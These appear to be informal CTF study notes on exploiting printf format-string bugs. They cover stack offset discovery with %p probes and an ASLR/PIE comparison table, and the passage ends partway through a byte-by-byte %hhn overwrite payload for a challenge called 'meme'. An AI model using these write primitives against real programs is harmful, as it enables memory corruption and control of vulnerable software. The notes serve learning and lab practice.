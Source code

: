 > The idea behind format strings is your kinda indexing into the list of arguments to printf, however since there's only one argument you're kinda overrunning that "list" of arguments and instead reading random stuff off the stack. (%N$p is basically just rbp+8*(N+1))
Another thing thats on the stack is your buffer, so eventually one of those things in the "list" of arguments will be your buffer. However it might not be perfectly aligned with printfs idea of its arguments.
So you'll want to find where your buffer is: do AAAAAAAA%N$p until you see 0x414141414141 filling up the entire argument. If you instead see like 0x204141414141, try maybe bAAAAAAAA and see if now your A's fill up the entire thing (and maybe you need to try the next element instead)

```
e.g. in memory it might look something like
11 [AA??????]
10 [AAAAAA9F]
9  [????????]
```


## ALSR vs PIE
| Configuration                    | Code Segment Address | Heap Address | Stack Address | Security Level |
|----------------------------------|----------------------|--------------|--------------|----------------|
| ASLR Enabled, No PIE             | Fixed                | Randomized   | Randomized   | Moderate       |
| PIE Enabled, No ASLR             | Fixed                | Fixed        | Fixed        | Low            |
| ASLR Enabled + PIE Enabled       | Randomized           | Randomized   | Randomized   | High           |
| No ASLR, No PIE                  | Fixed                | Fixed        | Fixed        | Very Low       |


## meme

* compare "COMPLMAO" locates at rbp-0x219 with "2tRi****" load from mem for first 4 characters, so try to overwrite rbp-0x219 to 2tRi
* offset: AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p, it turns out the 8th offset is usable
* payload = b"%46c...." + b"%16$hhn."  **.** is for the aligh, 2 with ascii decimal = 50 coz have 4 dots, so need %46c which means 46 spaces and 4 dots characters be written, and we wrote 50 to the address: payload += p64(target_address)
	* why 46c: align
	
	* why %16: 

	```
	payload = (b"%46c....")    # 8th offset
	payload += (b"%16$hhn.")
	
	payload += (b"%61c....")  # t = 116 - 50 =
	payload += (b"%17$hhn.")
	
	payload += (b"%218c...")  # R = 82 - 116 + 256 =222 - 4
	payload += (b"%18$hhn.")
	
	payload += (b"%18c....")  # i = 105 - 82
	payload += (b"%19$hhn.")
	